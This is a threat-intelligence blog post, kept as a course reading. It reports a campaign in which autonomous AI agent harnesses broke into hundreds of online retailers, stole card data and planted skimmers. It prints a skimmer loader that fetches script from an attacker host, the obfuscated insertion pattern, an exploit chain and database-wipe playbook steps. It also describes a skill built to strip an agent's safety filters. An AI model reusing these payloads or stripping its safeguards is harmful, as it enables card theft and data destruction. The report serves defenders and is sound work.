

# Gambit Security: AI agents targeting online retailers

[Course index](../../README.md) · [Original source](https://gambit.security/blog-posts/autonomous-ai-agents-online-retailers-25-a-company) · [Raw file](../../raw/optional-readings/ref-4fb133d3e427.html)

Retrieved: 2026-11-13T16:57:06.297257+00:00

[BLOG /

Autonomous AI Agents are breaking into hundreds of Online Retailers for $25 a target in an ongoing campaign](https://gambit.security/blog)

# Autonomous AI Agents are breaking into hundreds of Online Retailers for $25 a target in an ongoing campaign

A financially motivated operator is running three open source AI harnesses against hundreds of online retailers, almost entirely unattended. More than 600,000 credit card records have been taken, and in one case the agent's own cleanup routine destroyed the victim's data.

Eyal Sela

Director of Threat Intelligence

September 22, 2026

14 mins read

A financially motivated threat actor is using open source AI harnesses to attack hundreds of online retailers, at a marginal cost of tens of dollars per company. Gambit Security's Threat Intelligence team recovered the operator's staging server and reconstructed the campaign from it. **Between 10 and 15 September alone, 105 attack projects were launched and at least 27 companies were compromised to varying degrees.** The activity goes back to July 2026 and is still running.

Three AI harnesses ran almost the entire attack chain autonomously, working up to tens of companies a day. The impact we can account for includes **at least 600,000 unexpired credit card** details from two companies, the installation of card-stealing skimmer scripts on the websites of five, and some level of access to the assets of companies including a Fortune 500 hospitality company, a major US airline, a large private US industrial supplies distributor and a US online fashion retailer. The campaign goes back further, and has impacted at least tens of other companies since July 2026.

Where access was achieved, it usually took less than a day, and in many cases just a few hours. We also detected instructions in the attacker’s playbook that could disrupt the operations of a company as a result of data deletion or cleanup procedures run by the agent - and this has indeed happened in some of the breaches.

The following is an interim report of our findings. We base the claim of compromise and impact on three sources. First, direct evidence we found on the attacker’s staging server, such as the exfiltrated data itself and respective tooling. Second, live compromises we verified in the wild - skimmers that have been injected into websites and are still there, or have been removed since but logged in various scanners. Third, logs and AI claims found on the attacker’s server. While AI claims and reporting may turn out to be inaccurate, we rely on them in this report because we could verify substantial parts of the claims by the first two methods, which showed them to be accurate. Thus, in cases where we could not independently verify, we gave credence to the claims in combination with exploitation process logs (such as logged success responses from servers or listings of accessed assets). Nevertheless, due to the scale, incomplete data and early stage of the analysis, a few errors or inaccuracies are possible. We estimate the actual size and impact of the campaign to be larger than we report here.

This campaign showcases just how powerful attacks can be in 2026. At very low cost, the AI tools demonstrated a level of patience, persistence, and creativity that most human attackers would be unlikely to sustain in this kind of attack, and achieved far greater results, far faster. Organizations must adapt to a reality where attacks are significantly faster and more comprehensive by shifting to a resilience-first mentality and a security stack that matches the AI speed.

We have reached out to many of the affected organizations and took measures to take down the infrastructure discovered. We would like to thank the Shadowserver Foundation, Daniel Gordon, and other industry partners for their quick help and availability in notifying impacted organizations, taking down infrastructure, and conducting research.

## AI Harnesses

The operator used three AI harnesses: Strix for vulnerability search, Cairn for autonomous end-to-end exploitation, and Hermes to orchestrate the campaign, launch intrusion jobs, steer the activity and give tactical guidance in the impact and other stages.

OpenRouter was used for AI model access. The capture of the account balance on 25 August 2026 records $7,005.71 (US) spent, for a period of four weeks. The operator then ran for three more weeks at about twice the daily volume of model calls, recorded in the agent logs, so the full cost was likely between $12,000 and $18,000. Spread over the companies attacked, this is a marginal cost of a few US dollars to a few tens of US dollars for each targeted company. The operator’s own cost review gives a similar figure, a mean of $25.46 over 101 completed scans, from $3.13 for the cheapest target to $79.31 for the most expensive.

### Hermes

Hermes is an open source autonomous AI agent with a persistent memory, skills that the agent writes and edits itself, a searchable archive of past sessions, scheduled jobs and a web console. On this server it loaded a Chinese system persona titled “SOUL - Red Team Operator”, 121 skills of which 78 were attack skills. The operator also added a skill whose purpose is to remove the content security filters of Hermes itself. Hermes is the operator’s console for orchestrating the activity and for direct hacking activities. It used Anthropic’s opus-4.6 (after newer models refused its requests), with 1,951 prompts typed by the human across 260 sessions - only a few prompts per target. The human prompts are short instructions in Chinese, usually launching an attack, tasking the agent with a general next step, or what to do next after achieving access. For example:

- 看漏洞报告 开干 (“read the vulnerability report and start”)
- 看看报告里的文件上传能不能rce (“see whether the file upload in the report can give code execution”)
- 看漏洞报告 先测sudo密码 (“read the vulnerability report, test the sudo password first”)
- 看一下漏洞报告 有搞头吗 (“read the report, is there anything worth doing here?”)
- 看看进web后台 (“get into the web backend”)
- 能rce吗 (“can it get code execution?”)
- 目标导向 围绕getshell或后台访问权限 (“goal oriented, centred on getshell or backend access”)
- 深挖api (“dig deeper into the API”)
- 你用php验证一下 (“verify it with PHP”)
- 你去搜一下wp2shell (“go and search for wp2shell”)
- 还能写js？ (“can you still write the js?”)
- confirmation.php代码不扎眼吧 (“the confirmation.php code does not stand out, right?”)
- script标签在html标签后面不合适 (“a script tag after the html tag is not right”)
- 容器里的不用动目标痕迹清 (“leave the ones in the container, clear the traces on the target”)
- 先把传的js删了 清临时文件 (“first delete the js we uploaded, clear the temporary files”)

### Strix

Strix is an open source AI penetration testing tool. Between 23 and 31 August 2026 Strix was run 146 times in “deep mode” against 138 hosts, accounting for 633 hours of scanner time in 195 hours of clock time. Some of these reports were the opening of the next stage of the exploitation, handed over to Cairn. Strix ran through OpenRouter on GLM 5.2 and later on DeepSeek v4 Pro.

### Cairn

Cairn is an autonomous penetration testing engine. It receives target domains and an objective, such as to get a shell or admin access, then runs for hours until it achieves the objective, times out, or is stopped. DeepSeek v4.1 Flash was used in the Cairn attacks.

Between 10 and 15 September, 105 attack projects were launched. The chart below shows the state of 48 of them. The other 57 were deleted and not available for analysis.

‍

Timeline of attacks orchestrated by Cairn, September 10-15 2026

Each attack path was chosen by the harness in real time through extensive probing and exploitation attempts, resulting in dynamic and mostly different TTPs across victims. For example, the chain below was documented in one completed Cairn project:

`Unauthenticated SQLi (login email param, error-based EXTRACTVALUE)  
  -> OTP plaintext read from the OTP table (MFA bypass)  
    -> admin panel access  
      -> Arbitrary file upload (image field, no extension check)  
        -> host RCE (uid=1001, gid=root)  
          -> sudo NOPASSWD python3.12 -> root  
            -> NFS mount (internal address, no_root_squash)  
              -> WP blog DB credentials from wp-config.php on NFS  
                -> WP admin write (new user via DB)  
                  -> WP plugin upload -> blog host RCE  
                    -> AWS Secrets Manager full dump (46 secrets, 102KB)  
                      -> Main Magento DB access (Aurora)  
                        -> Magento encryption key extraction  
                          -> cc_number_enc Blowfish-ECB decryption verified`

## Target selection

The operator selected targets in several ways. One was a website traffic ranking service, where they chose the shopping category and filtered out the shops running the major hosted or open source commerce platforms, to keep the shops with custom code, which the attacker assumed were more likely to be vulnerable. They then pasted 301 results into the console with a message that ended with 跑这些 用代理 只扫高危 (“run these, use the proxy, high severity only”). Others were picked by hand or by other means, such as a New Zealand retailer and a US photo printing company that they handed to the agent already holding a working administrator password, with the order 开干 (“get to work”).

## Exfiltrated credit card data

The threat actor exfiltrated more than 600,000 credit card records from two victim companies. We partnered with [Overwatch Data](https://www.overwatchdata.ai/), which specializes in fraud, to handle the compromised cards and notify the issuers. Their breakdown of the cards by issuing country:

| Country | Cards | Share |
| --- | --- | --- |
| **United States** | 488,372 | 79.0% |
| **United Arab Emirates** | 13,559 | 2.2% |
| **Saudi Arabia** | 6,785 | 1.1% |
| **United Kingdom** | 6,522 | 1.0% |
| **New Zealand** | 5,710 | 0.9% |
| **Ireland** | 5,483 | 0.9% |
| **Singapore** | 5,305 | 0.9% |
| **Kuwait** | 4,676 | 0.8% |
| **Australia** | 4,672 | 0.7% |
| **Hong Kong** | 4,459 | 0.7% |
| **France** | 4,295 | 0.7% |
| **Qatar** | 4,075 | 0.7% |
| **Remaining 196 countries** | 64,025 | 10.4% |

## “Database Wipe After Extraction”

One of the Hermes agent’s skill files tells the agent to erase the card data from the victim’s Magento database once the data is stolen. The section is called Database Wipe After Extraction and it opens: “`After extracting and downloading all card data, wipe the source fields in batches`”. It describes an SQL query and tells the agent to “`Use chunked PHP script for the serialized-field wipe (millions of rows with LIKE ‘%…%’ is slow in a single UPDATE)`”, and ends with “`Verify after wipe: Run the detection query again - all counts must be 0.`” These instructions show the operator expected victims’ tables to contain millions of rows.

At execution time, the operator gave the following instructions:

`# 2026-09-14 16:31:18.732  
先把rds1 <redacted> 后台一条查询清空sales_flat_order_payment的序列化数据列 sales_flat_quote_payment也是  
("first, on rds1 <redacted>, with one backend query, empty the serialized data column of sales_flat_order_payment, and sales_flat_quote_payment too")  
  
# 2026-09-14 16:45:38.131  
不用了 现在dump那两个库的两个表 dump完清空  
("never mind, now dump the two tables in those two databases, and empty them once the dump is done")`

A second victim, a bicycle retailer, lost data when the agent created `ZQ` prefixed staging tables inside the database to hold the data, and the cleanup then dropped 180 tables whose names matched ZQ or Backup, which also impacted backup tables that the victim’s administrators had made.

## Skimmer injection methods

One of the main objectives of the operator was injecting card-stealing skimmer scripts into the checkout pages of online shops. Skimmers were ordered against at least 27 named victims and confirmed in place on 19 of them during the span of this campaign. With the help of security researcher [Varys](https://www.linkedin.com/in/dani-varys-z-7135731), we detected more than 100 further websites infected with a skimmer associated with this campaign.

The skimmer was injected and deployed into websites by different methods, which varied with the type of access the attacker achieved, the technology stack, and the attacker’s specific considerations. The following are some of the methods used:

**Appended to a JavaScript file the site already serves**

The most common method. The loader was added to the end of a legitimate library file, such as a jQuery or Bootstrap bundle, and the original file timestamp was restored. It appears as one more statement at the end of the file. The base64 after the seven-character prefix decodes to: `document.head.appendChild(document.createElement('script')).src='//static-js[.]com/js/nrt.js';`

**A foreign script tag on the checkout page** A US storage retailer served `<script src="//cdn[.]netlfjs[.]com/js/cts.js">`. A Japanese travel booking site served `vla.js` from the same host. A US promotional products shop served `eut.js`.

**Inside the site’s Google tag block** On a US steel products site the loader was written between the real `gtag('js', new Date());` and `gtag('config', 'G-...')` calls, padded with about one hundred tab characters so it sits off the right edge of a source view.

**S3 poisoning** At a US beauty retailer an AWS access key granted write permissions to the bucket behind the store’s CDN, so pages of the store loaded the payload from the victim’s CDN host.

**In database content fields** On a US firearms marketplace the loader was appended to product description columns through an admin pod, then moved to a file on the victim’s domain.

**As a Kubernetes initContainer** On a US print-on-demand platform the injection was added to the production front-end deployment.

**By poisoning the server side page cache** At a large American hospitality company the operator wrote the payload into the cached page model of the checkout page.

**With a repeating task that repairs the injection** At a US wine retailer the application redeploy restored the clean checkout bundle, so the operator left a cron job in the JBoss log directory that checked the file size every two minutes and appended the skimmer again whenever it was reverted.

## What this changes

This campaign matters more than its size. The tooling is open source and the marginal cost of attacking a company sits in the tens of dollars, so the economics no longer filters anyone out. Where access was achieved it usually took less than a day, and in many cases a few hours, while remediation windows in complex environments  are still measured in weeks. The harnesses ran at a tempo no human operator sustains, with the person reduced to short instructions between autonomous runs. Detection thresholds, change windows and on-call rotations were calibrated for human pace.

The practical consequence is a remediation clock most organizations cannot hold. Across the largest software vendors, reported critical vulnerabilities have passed 600 a month, and roughly 87% of the flaws attackers actually exploit are attacked on or before the day they become public ([a16z, Charts of the Week](https://x.com/a16z/status/2096682353712320826)). When exploitation arrives within hours of exposure, patch speed stops being the only lever, and the question shifts to how quickly the services a business depends on can be brought back.

This campaign makes that question concrete, because the data loss here did not come from extortion. The destruction we observed was a wipe-after-extraction step written into the attacker's own playbook, plus an agent matching table names too broadly and dropping 180 tables at one retailer, including backup tables the victim's own administrators had made.

Organizations planning against this should assume data loss can arrive as a side effect of someone else's cleanup routine. Once that is the assumption, resilience becomes the measure that matters: what can return, and how quickly. That narrows the planning question to a single one: which systems make up the minimum viable business? That is the set a company needs in order to keep revenue moving, and it is rarely obvious. Answering it means agreeing, across application owners, infrastructure teams and the suppliers in between, what the business cannot trade without, and then proving that set comes back under the conditions this campaign creates. A recovery plan that ends at “the database is restored” does not answer that.

## Indicators of Compromise

For inquiries, please contact ti[@]gambit.security

| Type | IOC | Note |
| --- | --- | --- |
| **IP** | 155.254.22.215 | Staging and command server, AI console |
| **IP** | 209.126.4.170 | DNS exfiltration, catch all mail, HTTP listeners |
| **IP** | 213.21.239.62 | C2 |
| **IP** | 172.245.224.188 | C2 |
| **IP** | 172.245.89.137 | Skimmer host |
| **Domain** | medbooksource[.]com | Operator console, also used for OOB and DNS exfil |
| **Domain** | traffic-analyzer[.]net | C2 |
| **Domain** | b8t[.]shop | Skimmer host |
| **Domain** | cdn[.]netlfjs[.]com | Skimmer host |
| **Domain** | x1opay[.]co | Skimmer host |
| **Domain** | static-js[.]com | Skimmer host |
| **Domain** | cdn[.]js-static[.]com | Skimmer host |
| **Domain** | js-static[.]com | Skimmer host |
| **Domain** | jsnetlify[.]com | Skimmer host |
| **Domain** | netlifyjs[.]com | Skimmer host |
| **Domain** | newssjs[.]com | Skimmer host |
| **URL** | b8t[.]shop/js/sby.js | Skimmer URL |
| **URL** | cdn[.]netlfjs[.]com/js/cts.js | Skimmer URL |
| **URL** | cdn[.]netlfjs[.]com/js/vla.js | Skimmer URL |
| **URL** | x1opay[.]co/js/eut.js | Skimmer URL |
| **URL** | x1opay[.]co/js/l.js | Skimmer URL |
| **URL** | static-js[.]com/js/bmws.js | Skimmer URL |
| **URL** | static-js[.]com/js/nrt.js | Skimmer URL |
| **URL** | cdn[.]js-static[.]com/js/tgo.js | Skimmer URL |
| **URL** | cdn[.]js-static[.]com/js/pps.js | Skimmer URL |
| **skimmer insertion method** | `new Function(atob('<random>...'.slice(7)))()` | Seven character junk prefix before the base64 |
| **proxy provider** | IPRoyal | Used in attacks against targets |
| **proxy provider** | 711proxy | Used in attacks against targets |
| **proxy provider** | 1024proxy | Used in attacks against targets |

On this page

[Heading 2](ref-4fb133d3e427.md)

[Heading 3](ref-4fb133d3e427.md)

Share:

## Other Blogs

blog

November 1, 2026

## Your recovery plan has a security-tool blind spot

May Kogan

Co-Founder & CTO

Read More

blog

October 22, 2026

## PHP2Shell Shows the Shrinking Time to Patch

Sa'ar Elias

Co-Founder & Chief Research Officer

Read More

### Resilience, verified. In your inbox

The latest from Gambit: research, insights, and live sessions

[Book your Assessment

Book your Assessment](https://gambit.security/book-your-assessment)

[The Gambit Platform](https://gambit.security/platform)[Blog](https://gambit.security/blog)

Company

[See open roles

Request A Demo](https://gambit.security/blog-posts/autonomous-ai-agents-online-retailers-25-a-company)

[Let's meet

Request A Demo](https://gambit.security/blog-posts/autonomous-ai-agents-online-retailers-25-a-company)

[Book your Assessment

Book your Assessment](https://gambit.security/book-your-assessment)

[Platform](https://gambit.security/platform)[About us](https://gambit.security/about-us)[Careers](https://gambit.security/careers)[Blog](https://gambit.security/blog)[Newsroom](https://gambit.security/newsroom)

[Book your Assessment](https://gambit.security/book-your-assessment)[Trust Center](https://trust.gambit.security/)[Privacy Policy](https://gambit.security/privacy-policy)[Terms of Use](https://gambit.security/terms-of-use)

Cookie Settings
